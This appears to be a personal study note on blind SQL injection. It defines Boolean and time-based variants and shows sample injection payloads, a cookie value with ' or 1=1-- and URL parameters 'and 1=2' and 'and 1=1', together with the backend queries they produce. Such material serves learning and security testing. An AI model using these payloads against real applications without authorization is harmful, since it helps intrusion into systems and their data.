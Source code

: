 # General 

## Types

#### BLIND
- *no data is sent back to the client after performing an attack*
- there is no actual transfer of data via the web application

# exploit
- asking true and false questions 
> cookie: test=test`' or 1=1--`

--> 2 types of blind injections
- Boolean ( true or false )
- Time ( sleep attacks )


-> Boolean <- 
- blind SQL Injection technique that uses Boolean conditions to return a different result depending on whether the query returns a TRUE or FALSE result.

```
www.random.com/app.php?id=1
```
- force a false payload to see how the application responds
- force a true payload to see how the application responds

> if they act differently ( true vs falls ) then it is vulnerable to Boolean attacks

```
www.random.com/app.php?id=1

---- backend query ----
select title from product where id=1

>>

---- false payload ----
www.random.com/app.php?id=1 and 1=2

---- backend query ----
select title from product where id=1 and 1=2

---- true payload ----
www.random.com/app.php?id=1 and 1=1

---- backend query ----
select title from product where id=1 and 1=1
```





#### Resources:

[[resources_VU]]
